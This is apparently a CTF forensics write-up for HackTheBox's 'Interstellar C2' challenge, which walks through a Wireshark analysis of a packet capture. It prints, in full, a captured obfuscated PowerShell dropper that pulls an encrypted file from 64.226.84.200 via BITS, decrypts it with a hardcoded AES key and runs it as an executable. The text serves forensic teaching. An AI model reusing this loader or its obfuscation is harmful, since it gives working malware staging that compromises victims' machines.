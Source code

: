 # Challenge: Interstellar C2

## Category: Forensics

This challenge is part of the '_CyberApocalypse 2023_' CTF by Hackthebox, one of the hardest in the forensics category - difficulty **hard**.

A pcapng capture file 'capture.pcapng' was the the only provided input for the player. The goal is to understand what happened to retrieve the flag.

The very first step is look at the capture file using wireshark and get an very level summary:
```bash
wireshark capture.pcapng # open the file

# from Wireshark use Statistics -> File Properties
OS: 64-bit Windows 10 (21H2), build 19044
Packets 7269 7269 (100.0%)

# from Wireshark use Statistics -> Conversation IPv4
"192.168.25.140",0,"64.226.84.200",0,7202
```

At this point we know that the most part of the dialogue is between 192.168.25.140 and 64.226.84.200 as it involves 7202/7269 packets.

By looking at exported HTTP Objects ('File' -> 'Export Objects' -> 'HTTP') a powershell file was sent from 64.226.84.200 to 192.168.25.140 at the beginning fo the conversation,
packet 7, this can be a valid starting point.

The powershell file is a bit obfuscated and look like this:
```bash
.("{1}{0}{2}" -f'T','Set-i','em') ('vAriA'+'ble'+':q'+'L'+'z0so')  ( [tYpe]("{0}{1}{2}{3}" -F'SySTEM.i','o.Fi','lE','mode')) ;  &("{0}{2}{1}" -f'set-Vari','E','ABL') l60Yu3  ( [tYPe]("{7}{0}{5}{4}{3}{1}{2}{6}"-F'm.','ph','Y.ae','A','TY.crypTOgR','SeCuRi','S','sYSte'));  .("{0}{2}{1}{3}" -f 'Set-V','i','AR','aBle')  BI34  (  [TyPE]("{4}{7}{0}{1}{3}{2}{8}{5}{10}{6}{9}" -f 'TEm.secU','R','Y.CrY','IT','s','Y.','D','yS','pTogrAPH','E','CrypTOSTReAmmo'));  ${U`Rl} = ("{0}{4}{1}{5}{8}{6}{2}{7}{9}{3}"-f 'htt','4f0','53-41ab-938','d8e51','p://64.226.84.200/9497','8','58','a-ae1bd8','-','6')
${P`TF} = "$env:temp\94974f08-5853-41ab-938a-ae1bd86d8e51"
.("{2}{1}{3}{0}"-f'ule','M','Import-','od') ("{2}{0}{3}{1}"-f 'r','fer','BitsT','ans')
.("{4}{5}{3}{1}{2}{0}"-f'r','-BitsT','ransfe','t','S','tar') -Source ${u`Rl} -Destination ${p`Tf}
${Fs} = &("{1}{0}{2}" -f 'w-Ob','Ne','ject') ("{1}{2}{0}"-f 'eam','IO.','FileStr')(${p`Tf},  ( &("{3}{1}{0}{2}" -f'lDIt','hi','eM','c')  ('VAria'+'blE'+':Q'+'L'+'z0sO')).VALue::"oP`eN")
${MS} = .("{3}{1}{0}{2}"-f'c','je','t','New-Ob') ("{5}{3}{0}{2}{4}{1}" -f'O.Memor','eam','y','stem.I','Str','Sy');
${a`es} =   (&('GI')  VARiaBLe:l60Yu3).VAluE::("{1}{0}" -f'reate','C').Invoke()
${a`Es}."KE`Y`sIZE" = 128
${K`EY} = [byte[]] (0,1,1,0,0,1,1,0,0,1,1,0,1,1,0,0)
${iv} = [byte[]] (0,1,1,0,0,0,0,1,0,1,1,0,0,1,1,1)
${a`ES}."K`EY" = ${K`EY}
${A`es}."i`V" = ${i`V}
${cS} = .("{1}{0}{2}"-f'e','N','w-Object') ("{4}{6}{2}{9}{1}{10}{0}{5}{8}{3}{7}" -f 'phy.Crypto','ptogr','ecuri','rea','Syste','S','m.S','m','t','ty.Cry','a')(${m`S}, ${a`Es}.("{0}{3}{2}{1}" -f'Cre','or','pt','ateDecry').Invoke(),   (&("{1}{2}{0}"-f 'ARIaBLE','Ge','T-V')  bI34  -VaLue )::"W`RItE");
${f`s}.("{1}{0}"-f 'To','Copy').Invoke(${Cs})
${d`ecD} = ${M`s}.("{0}{1}{2}"-f'T','oAr','ray').Invoke()
${C`S}.("{1}{0}"-f 'te','Wri').Invoke(${d`ECD}, 0, ${d`ECd}."LENg`TH");
${D`eCd} | .("{2}{3}{1}{0}" -f'ent','t-Cont','S','e') -Path "$env:temp\tmp7102591.exe" -Encoding ("{1}{0}"-f 'yte','B')
& "$env:temp\tmp7102591.exe"
```
